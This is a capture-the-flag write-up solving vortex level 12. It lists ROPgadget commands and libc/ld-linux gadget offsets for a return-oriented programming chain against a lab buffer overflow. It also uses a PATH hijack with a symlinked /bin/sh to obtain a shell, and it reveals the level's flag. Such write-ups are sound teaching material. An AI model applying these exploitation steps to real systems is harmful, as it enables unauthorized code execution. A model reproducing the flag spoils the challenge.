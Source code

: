 # vortex level12 Solution

in this challenge we need to use ROP chain in order to exploit the buffer overflow. 
we will find our gadgets in *libc.so.6*, and in *ld-linux.so.2*.

using this command we can see where every file is loaded: 
```
ldd /vortex/vortex12
```
/lib/i386-linux-gnu/libc.so.6 (**0xf7d7d000**)
/lib/ld-linux.so.2 (**0xf7fc9000**)


find "pop eax", "pop edx", in libc.so.6
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "pop|ret" | grep -E "pop (eax|edx) ; ret"
```
* pop eax -> 0x0012b311 (in **libc.so.6**)
* pop edx -> 0x0003be0d (in **libc.so.6**)

then, find "mov [edx], eax", in ld-linux.so.2 
```
 ROPgadget --binary /lib/ld-linux.so.2 --only "mov|ret" | grep -E "mov .* \[edx\], eax ; ret"
```
![image](./images/level12_2.png)

* mov [edx], eax -> 0x0001250b (in **ld-linux.so.2**)

we only need to call exit, so, first let's find "mov eax, 1".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "mov|ret" | grep -E "mov eax, 1"
```
* mov eax, 1 -> 0x0005cdb5 (in **libc.so.6**)

and then, call the kernel using "int 0x80".
```
ROPgadget --binary /lib/i386-linux-gnu/libc.so.6 --only "int"
```
* int 0x80 -> 0x00039ed4 (in **libc.so.6**)

now, we can see it tries to run this command, `system("%d")`  
![image](./images/level12_3.png)

first we need to adjust the PATH variable:
```
export PATH=.:$PATH
```

and then, create link to `/bin/sh` using this command: 
```
ln -sf /bin/sh "%d"
```

finally :)

![image](./images/level12_4.png)

**Flag:** ***`kklZMRIrj`***